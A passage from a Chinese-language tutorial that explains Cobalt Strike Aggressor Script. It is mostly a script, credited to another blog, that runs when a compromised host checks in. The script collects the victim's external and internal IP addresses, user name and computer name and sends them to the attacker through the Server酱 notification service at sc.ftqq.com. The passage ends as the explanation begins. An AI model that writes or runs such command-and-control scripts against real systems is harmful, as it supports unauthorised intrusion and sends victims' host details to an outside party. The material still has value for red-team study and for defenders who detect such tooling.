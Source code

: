 

![image-20201216124754601](/assets/wgpsec/images/Aggressor-Script/image-20201216124754601.png)

使用方式和Beacon基本相同，所以不再赘述





# Server酱上线代码解析

> 代码来源：算命瞎子：http://www.nmd5.com/?p=567

源代码：

```shell
# 循环获取所有beacon
on beacon_initial {

    sub http_get {
        local('$output');
        $url = [new java.net.URL: $1];
        $stream = [$url openStream];
        $handle = [SleepUtils getIOHandle: $stream, $null];

        @content = readAll($handle);

        foreach $line (@content) {
            $output .= $line . "\r\n";
        }

        println($output);
    }
    #获取ip、计算机名、登录账号
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");

    #get一下Server酱的链接
    $url = 'https://sc.ftqq.com/此处填写你Server酱的SCKEY码.send?text=CobaltStrike%e4%b8%8a%e7%ba%bf%e6%8f%90%e9%86%92&desp=%e4%bb%96%e6%9d%a5%e4%ba%86%e3%80%81%e4%bb%96%e6%9d%a5%e4%ba%86%ef%bc%8c%e4%bb%96%e8%84%9a%e8%b8%8f%e7%a5%a5%e4%ba%91%e8%b5%b0%e6%9d%a5%e4%ba%86%e3%80%82%0D%0A%0D%0A%e5%a4%96%e7%bd%91ip:'.$externalIP.'%0D%0A%0D%0A%e5%86%85%e7%bd%91ip:'.$internalIP.'%0D%0A%0D%0A%e7%94%a8%e6%88%b7%e5%90%8d:'.$userName.'%0D%0A%0D%0A%e8%ae%a1%e7%ae%97%e6%9c%ba%e5%90%8d:'.$computerName;

    http_get($url);

}

```

整体代码流程是，监听上线事件，当有新的主机上线的时候我们就执行代码：
